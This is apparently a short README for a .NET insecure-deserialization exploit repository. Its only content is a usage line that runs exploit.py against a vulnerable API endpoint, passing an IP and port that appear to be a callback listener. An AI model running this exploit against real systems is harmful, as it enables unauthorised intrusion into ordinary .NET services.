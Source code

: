 # dotnet-insecure-desserialization

Usage:
  python3 exploit.py http://127.0.0.1/api/vulnerable 10.10.14.2 80
